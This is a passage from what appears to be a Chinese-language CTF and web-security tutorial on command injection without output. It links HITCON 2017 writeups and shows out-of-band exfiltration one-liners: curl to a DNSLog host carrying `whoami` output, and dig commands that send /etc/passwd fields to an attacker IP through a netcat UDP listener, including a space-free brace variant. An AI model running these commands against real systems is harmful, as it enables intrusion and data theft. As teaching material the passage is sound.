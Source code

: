 

相关Writeup:

- [Baby First Revenge v2 (Via vim) by @bennofs](https://github.com/bennofs/docs/blob/master/hitcon-2017/baby-first-revenge2.md)
- [[python\] baby-exp.py](https://codegists.com/snippet/python/baby-exppy_beched_python)
- [How to solve a CTF challenge for $20 - HITCON 2017 BabyFirst Revenge v2](https://www.eugenekolo.com/blog/hitcon-babyfirst-revenge-v2/)
- [HITCON CTF 2017 BabyFirst Revenge & v2 writeup](https://findneo.github.io/2017/11/HITCON-CTF-2017-Babyfirst-Revenge-series-writeup/)



###	无回显的命令注入

我们之前提到的大部分都是有回显或者一部分提示的命令注入，当我们遇到无回显的命令注入的时候我们又要怎么办呢？

####	DNS Log

项目地址：[BugScanTeam/DNSLog](https://github.com/BugScanTeam)

对于一些命令盲注类的漏洞，这通常是比较有效的方法，因为通常出站DNS流量不会被阻止可以通过，DNSLog 中的 WebLog 部分将其转化为有回显的命令执行：

```
curl "http://testhash.test.dnslog.link/?`whoami`"
```

这个用起来比较简单，直接去查看对应的记录就好了。

![](https://ws1.sinaimg.cn/large/64ef14dcgy1fymyefg60qj217e03qqcv.jpg)

![](https://ws1.sinaimg.cn/large/64ef14dcgy1fymyeptgv0j21ro076ab3.jpg)

有时候你需要编码想要读出来的内容，这样才不会由于一些空格或者什么其他字符导致读不完整数据。

这里不仅可以用于命令注入，还可以用于`xss`等其他一些无回显的攻击。

这里再给个走`udp`流量的示例

```bash
Only OB DNS traffic (UDP/53) allowed and can exec commands? Use 
dig `cut -d: -s -f1 /etc/passwd | sed 10\!d` @ip
to offload file contents.
```

服务端：

```bash
nc -l -n -vv -p 53 -u -k(如果不支持-k也可以不用-k)
```

![](https://ws1.sinaimg.cn/large/64ef14dcgy1fynlyqbpj2j20ti048ahj.jpg)

![](https://ws1.sinaimg.cn/large/64ef14dcgy1fynlyxejhmj20le0esh2i.jpg)

Same:

```bash
{dig,`{cut,-d:,-s,-f1,/etc/passwd}|{sed,2\!d}`,@ip}
```
